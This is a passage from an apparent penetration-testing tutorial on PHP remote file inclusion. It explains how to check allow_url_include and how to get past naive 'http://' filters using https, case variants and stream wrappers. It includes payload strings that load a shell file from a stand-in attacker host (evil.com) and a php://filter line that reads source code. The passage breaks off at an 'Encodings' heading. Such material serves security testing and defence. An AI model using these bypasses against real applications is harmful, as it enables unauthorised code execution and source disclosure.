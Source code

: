✅ **Summary:**

* `allow_url_include` controls whether you can include remote PHP files.
* Easiest way: `phpinfo()` or `ini_get()`.
* As an attacker: try to include a URL and monitor if your server gets a request.

***

## Sensitive Case Filters, Wrappers, Nulls

When developers try to filter `http://`, attackers look for **alternatives**.

Here are the common **alternates of `http://`** that can bypass filters:

***

### 1. `https://`

If the code only removes `http://` but not `https://`:

```php
$file1 = "https://evil.com/shell.txt";

```

✅ Still works.

***

### 2. Case variations

PHP string functions like `str_replace()` are **case-sensitive**.

So if they filter `http://` exactly, you can use:

* `HTTP://`
* `HtTp://`
* `hTtP://`

✅ All bypass unless the developer uses a case-insensitive function (`str_ireplace()`).

***

### 3. Other stream wrappers

PHP allows different "protocols" (wrappers) besides `http://`. Examples:

* `ftp://evil.com/shell.txt`
* `php://filter` (used to read source code, e.g. `php://filter/convert.base64-encode/resource=index.php`)
* `data://text/plain;base64,...` (inline payloads)

✅ These often bypass weak filters.

***

### 4. Encodings

